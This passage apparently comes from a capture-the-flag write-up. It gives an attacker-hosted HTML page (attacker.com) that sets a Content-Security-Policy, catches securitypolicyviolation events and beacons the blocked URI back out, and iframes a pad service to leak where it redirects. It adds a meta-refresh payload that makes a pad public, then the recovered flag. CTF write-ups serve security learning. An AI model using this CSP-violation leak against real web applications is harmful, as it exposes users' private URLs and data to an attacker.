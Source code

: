 ``https://attacker.com/attacker.html``
```html 
<html>
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="Content-Security-Policy" content="frame-src 'self' xn--pd-viaaa.space;">
    <title>TEST</title>
</head>

<body>
    <script>
        document.addEventListener('securitypolicyviolation', async function (event) {
            console.log(event)
            navigator.sendBeacon(location.href,event.blockedURI)

        });      
    </script>
    <iframe src="https://päääd.space/p/latest"></iframe>
</body>

</html>
```
``Second pad``
```html
<!-- to make pad public-->
<meta http-equiv="refresh" content="1; url=unique_id.xn--pd-viaaa.space?edit=isPublic">
```
## Flag

``flag{hmmmmmmmmmXDD} ``